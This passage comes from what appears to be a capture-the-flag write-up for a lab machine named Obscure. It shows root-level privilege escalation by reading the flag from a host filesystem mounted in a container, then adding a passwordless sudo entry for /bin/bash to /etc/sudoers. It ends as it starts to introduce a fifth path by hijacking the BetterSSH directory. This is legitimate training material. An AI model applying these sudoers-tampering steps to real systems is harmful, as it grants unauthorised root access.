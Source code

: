 
    /mnt/root # ls
    bin             cdrom           etc             initrd.img      lib             lost+found      mnt             proc            run             snap            swap.img        tmp             var             vmlinuz.old
    boot            dev             home            initrd.img.old  lib64           media           opt             root            sbin            srv             sys             usr             vmlinuz



I can read `root.txt`:



    /mnt/root/root # cat root.txt 
    512fd442************************



There are many ways to turn this into a root shell on the host. For
example, I can edit `/etc/sudoers` to add a second line for robert. I
will need to `chmod +w sudoers` first (and ideally `chmod -w sudoers`
once I'm done), as it's currently set to not writable, even by owner.



    robert ALL=(ALL) NOPASSWD:/usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    robert ALL=(ALL) NOPASSWD:/bin/bash 



Now I can exit the container, and run `sudo bash`:



    /mnt/root/etc # exit
    robert@obscure:~$ sudo /bin/bash
    root@obscure:~# id
    uid=0(root) gid=0(root) groups=0(root)



This was patched at some (unknown) point since December 2019 by removing
the robert user from the lxd group.

### Path 5: Move BetterSSH Directory

When I originally posted this writeup,
[jkr](https://twitter.com/ATeamJKR) replied:

> Four ways to root and yet there is a fifth one: Move the BetterSSH
> folder out of the way and create your own BetterSSH directory with a
> proper script 🤪
>
> --- jkr (@ATeamJKR) [May 9,
> 2020](https://twitter.com/ATeamJKR/status/1259143066868420609?ref_src=twsrc%5Etfw)

I took a quick look, and it's a good lesson on Linux permissions.

There are two sets of permissions that matter here. The home directory
of robert, `/home/robert`, and the permissions on the directory
`BetterSSH` in that directory:
